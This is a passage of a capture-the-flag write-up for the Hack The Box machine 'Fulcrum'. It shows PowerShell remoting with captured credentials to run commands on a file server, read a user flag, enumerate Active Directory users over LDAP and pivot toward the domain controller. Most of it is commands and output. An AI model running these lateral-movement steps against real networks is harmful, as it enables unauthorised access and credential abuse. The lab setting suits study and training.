 We got BTables Creds, now we just gotta check if we can invoke commands on that machine

```
Invoke-Command -Computername file.fulcrum.local -ScriptBlock {whoami} -credential $cred
```
While Invoking it, it will ask for Credentials

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/BTables.PNG"></kbd>

```
> Invoke-Command -Computername file.fulcrum.local -ScriptBlock {whoami} -credential $cred
fulcrum\btables
```

GET REKT!!
We can now create a $session where it would store the creds, so that we dont have to always put in the username and the password
```
PS C:\inetpub\wwwroot> $session = New-PSSession –ComputerName file.fulcrum.local -credential $creds
PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {whoami}
fulcrum\btables
```

Lets see if it has user.txt

```
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir C:\Users\BTables\Desktop\}

    Directory: C:\Users\BTables\Desktop
Mode                LastWriteTime         Length Name                                       PSComputerName
----                -------------         ------ ----                                       --------------
-a----       04-10-2017     22:12             34 user.txt                                   file.fulcrum.local

[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {type C:\Users\BTables\Desktop\user.txt}
fce52521c8f872b514f037fada78daf4
```
**GL HF GG WP**

Time to get root!

### Root.txt

After some enum we find a check-auth.ps1 file in Btables folder
```
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir ../ }

    Directory: C:\Users\BTables
Mode                LastWriteTime         Length Name                                       PSComputerName
----                -------------         ------ ----                                       --------------
d-r---       04-10-2017     22:12                Desktop                                    file.fulcrum.local
d-r---       09-10-2017     20:22                Documents                                  file.fulcrum.local
...
-a----       12-10-2017     20:09           5502 check-auth.ps1                             file.fulcrum.local
...
```


[192.168.1.41]: PS C:\Users\WebUser\Documents> whoami
[192.168.1.41]: PS C:\inetpub\wwwroot> cat web.config
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter = "(objectClass=user)";
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(objectClass=user)"
[192.168.1.41]: PS C:\inetpub\wwwroot> $results = $searcher.findAll()
[192.168.1.41]: PS C:\inetpub\wwwroot> foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {Get-Content ../check-auth.ps1 -Tail 25 > dotalol
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {.\dotalol.ps1 ..\merged.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {sls 923a ..\merged.txt -ca | select -exp line}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {whoami}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName file.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command